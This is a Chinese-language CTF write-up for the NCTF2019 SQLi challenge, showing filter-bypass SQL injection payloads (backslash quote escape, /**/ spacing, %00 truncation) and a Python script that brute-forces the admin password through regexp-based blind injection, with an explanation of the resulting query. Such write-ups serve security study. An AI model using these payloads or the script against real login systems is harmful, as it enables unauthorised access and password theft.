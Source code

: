 ```yaml
---
title: '[NCTF2019]SQLi'
date: 2024-06-14 19:57:14
tags: sql注入
categories: 刷题笔记
---
```


### [NCTF2019]SQLi（regexp&%00截断）

我们先对题目进行扫描，发现扫出来个robots.txt

我们进行访问

![image-20240614195933329](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406141959473.png)

出现黑名单和得到flag的条件，我们要获得admin账号的密码

我们可以注意到没有对`\`进行过滤，空格过滤可以替换为`/**/，末尾多出的 ' 可以用%00截断，所以我们可以构造如下payload来使查询为真

<!--more-->

```
username=\&passwd=||/**/1;%00
```

注意：我们不能总结在登录框里面敲%00，那样会导致%00被转义而失去作用，所以我们抓包进行改写

![image-20240614202036370](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406142020471.png)

但是查询成功会跳转到welcome.php界面，那玩意就是个404页面，所以我们还是要获取admin的密码

我们可以用以下payload写脚本（注意是正则匹配，所以需要限定字符串开头，否则在字符串中找到也会算为真）：

```
username=\&passwd=||/**/passwd%09regexp"^y";%00
```

脚本

```
import requests
from urllib import parse



url = "http://08df778b-b131-45e7-9eff-822311e44b07.node4.buuoj.cn:81/"
# 构造字典

dict_list = [ i for i in range(97,123)]
shuzi = [i for i in range(48,58)]
dict_list +=shuzi
dict_list.append(95)
flag = ''
for i in range(50):
    for j in dict_list:
        payload = '||passwd/**/regexp"^%s";\x00'%(flag+chr(j))
        datas = {
            'username': '\\',
            'passwd': payload
        }
        print(datas)
        import time
        time.sleep(1)
        res = requests.post(url=url,data=datas)
        # print(res.text)
        if 'welcome.php' in res.text :
            flag += chr(j)
            print("[+] "+flag)
            break
```

原理

```
页面上回显的sql语句
select * from users where username='' and passwd=''
我们通过username 传入 \ 这样可以把'转义掉 变成这样
select * from users where username='\' and passwd=''
此时的 \' and passwd=' 就成了 username的值
在通过传入 passwd 传入 ||passwd/**/regexp"^y";%00
select * from users where username='\' and passwd='||passwd/**/regexp"^y";%00'
就和前置知识类似了
select * from users where username=''||passwd/**/regexp"^y";%00' 
后边的%00相当于截断了后边的字符，看了下php 对应版本为 5.2.16,存在截断漏洞，
接下来只需要遍历 regexp"^x" 中的 x即可
```

得到密码

```
you_will_never_know7788990
```

由于我们只要密码等于admin的密码，用户名不做要求，我们直接随便写个用户名，再吧密码写上去就得到flag了

![image-20240614205233749](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406142052816.png)
